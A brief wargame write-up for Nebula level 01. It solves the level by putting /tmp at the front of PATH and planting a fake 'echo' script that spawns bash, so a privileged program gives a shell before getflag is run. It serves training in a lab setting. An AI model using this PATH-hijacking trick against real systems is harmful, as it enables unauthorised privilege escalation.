 .. _nebula01:

.. role:: bash(code)
	  :language: bash

Nebula level 01
===============

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level01/

Solution
--------

Export :bash:`PATH` first

:bash:`$ export PATH=/tmp:$PATH`

On :bash:`tmp` create a bash script with this and name it echo (without extension):

.. code-block:: bash
		#!/bin/bash
		bash

:bash:`$ chmod 777 echo`

and last execute :bash:`getflag` 

